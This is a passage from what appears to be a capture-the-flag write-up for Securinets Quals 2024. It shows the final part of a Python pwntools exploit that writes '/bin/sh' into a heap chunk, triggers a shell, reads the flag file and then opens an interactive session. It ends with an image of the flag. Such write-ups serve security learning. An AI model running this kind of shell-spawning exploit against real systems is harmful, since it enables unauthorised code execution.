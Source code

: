 ```python

                edit(7,"/bin/sh\x00\x00",True)

                p.sendline("5".encode())
                p.sendline(b"10")
                p.sendline(b"7")

                sleep(0.5)
                #p.interactive()
                p.sendline(b"ls / ; cat /fla*")
                sleep(0.5)
                msg=p.recv()
                print("------------------------------")
                log.info(msg)
                print("------------------------------")
                if b"app" in msg:
                        print(msg)
                        exit(1)

                p.interactive()

        except KeyboardInterrupt:
                print("bye")
                exit(0)
        except :
                pass
        finally :
                p.close()

```

![flag](/assets/posts/Securinets_quals_2024/flag.png)
